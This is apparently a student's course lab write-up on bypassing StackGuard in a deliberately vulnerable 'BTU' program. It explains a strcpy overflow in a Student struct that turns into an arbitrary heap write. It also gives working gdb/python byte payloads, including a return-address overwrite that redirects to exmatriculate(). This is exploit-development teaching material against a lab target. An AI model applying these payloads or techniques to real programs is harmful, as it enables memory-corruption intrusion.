



# Defeating Stack Gaurd


* If we do not want to affect the value in a particular location during 
the memory copy, such as the shaded position marked as Guard in Figure 4. 12, the only way to 
achieve that is to overwrite the location with the same value that is stored there
* Based on this observation, we can place some non-predictable value (called guard) between 
the buffer and the return address. Before returning from the function, we check whether the 
value is modified or not. If it is modi fied, chances are that the return address may have also 
been modified. Therefore, the problem of detecting whether the return address is overwritten is 
reduced to detecting whether the guard is overwritten. These two problems seem Lo be the same, 
but they are not. By looking at the value of the return address, we do not know whether its value 
is modi fied or not, but since the value of the guard is placed by us, it is easy to know whether 
the guard 's value is modified or not.

## our problem description: 
### ✅ Task 4: Sneaking Past the StackGuard
- 🎯 Goal:

    - Exploit a heap-based arbitrary write vulnerability in the add_student function of the BTU program to:

        - Bypass StackGuard

        - Redirect control flow to exmatriculate(1782914303)

        - While Non-Executable Stack and StackGuard are enabled

        - All other protections (ASLR, PIE, RELRO) are disabled

### 🪛 Step 1: Scenario Setup
- Security Configuration:

    - ✅ StackGuard: Enabled

    - ✅ NX (non-executable stack): Enabled

    - ❌ ASLR: Disabled (echo 0 | sudo tee /proc/sys/kernel/randomize_va_space)

    - ❌ PIE: Disabled (compile with -no-pie)

    - ❌ RELRO: Disabled (compile with -Wl,-z,norelro)
    - 
### 🔍 Step 2: Analyzing Vulnerability: 
-  
    - we can see that these lines have some issues
    - before we go through them, lets navigate the Student struct:
        ```c
            struct Student {
            char password[32];        // fixed-size buffer (vulnerable)
            unsigned int id;
            char* name;
            char* last_name;};
        ```
    - so we can see that there is a static password array of size 32
    - important remark to note, if we defined the size of the array before running the program it is defined in the **stack**, otherwise it is defined in the **heap**
    - so now we can see that: 
        - **password**: is defined in the stack
        - **record->name** : is defined in the heap
        - **record->last_name** : is defined in the heap 
    - now the problem that we can overflow all the 3 buffers because **strcpy** function is not secure. 
    - and if we overflow password for example, it can overwrite **record->name address (not_value)** so this will imply that when the program excutes **strcpy(record->name, name)** we already changed the address of **record->name to be = 0xffffabcd** and then we can add any arbitrary value inside it by filling it inside **name** variable
    - this occurs because the program layout is as follows: 
        - 0x00 password <-- 32 * 'A' for example
        - 0x20 id   <--- 1234
        - 0x24 name <---- **0x080ab304 (this is the most important value)**
        - 0x28 last_name <---  **0x080ab304 (this is the second most important value)**
    - they are important because they are pointers to values inside the heap
    - this imply that they contain address to specific location inside the heap
    - so if we overwrote them, we can write our values in any arbitrary position in the memory, and this is our main goal. 
    - the normal flow should be:
        - strcpy(some_safe_location_in_heap, "Zizo");
    - but when we overwrite the address it becomes:
        - strcpy((char*)0xFFFFABCD, "Zizo");

### 🔥 Step3: creating the payload and testing the exploit
* I will create the payload as follows: 
    - password buff = 'a' * 32
    - id = any value
    - last_name = the target location in the memory which in our case: **0xffffabcd**
    - name here is not important, so we can add any dummy name. 
* this is the content of the password
* and in the last_name I will make it 0xDEADBEEF
* final command: gdb btu add name lname id password
     ```bash
    gdb --args ./build/bin/btu add hamada "$(python3 -c 'import sys; sys.stdout.buffer.write(b"\xef\xbe\xad\xde")')"  5555 "$(python3 -c 'import sys; sys.stdout.buffer.write(b"\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\xaa\xaa\xaa\xaa\xcd\xab\xff\xff")')"
    ```
* 
    - now we can see that the address locatino **0xffffabce** contains the value **0xdeadbeef**
> Note: use the following commands to get the above results: 
    
- > python3 task4_generator_payload.py
- > b main
- next till line 60 before the add methond
- > b add_student
- > next
- > next till copying all buffers. 
- > x10x 0xffffabcd

### Step4: Weponize the results to exmatriculate Klaus once again


# Martin code: 

```bash
gdb --args ./build/bin/btu add Martin "$(python3 -c 'import sys; sys.stdout.buffer.write(
    b"\x66\xb1\x04\x08" +  # exmatriculate() address
    b"\xb0\x25\xb1\xf7" +  # exit() address
    b"\x60\x0c\x05\x08" +  # this pointer (btu)
    b"\xff\x1c\x45\x6a"    # student ID (Klaus)
)')" 222 "$(python3 -c 'import sys; sys.stdout.buffer.write(
    b"\x90"*32 +           # NOP sled to fill password buffer (32 bytes)
    b"DDDD" +              # filler for next 4 bytes after buffer
    b"\x6c\xcb\xff\xff"    # return address overwrite (points to last_name ROP chain)
    )')"
```
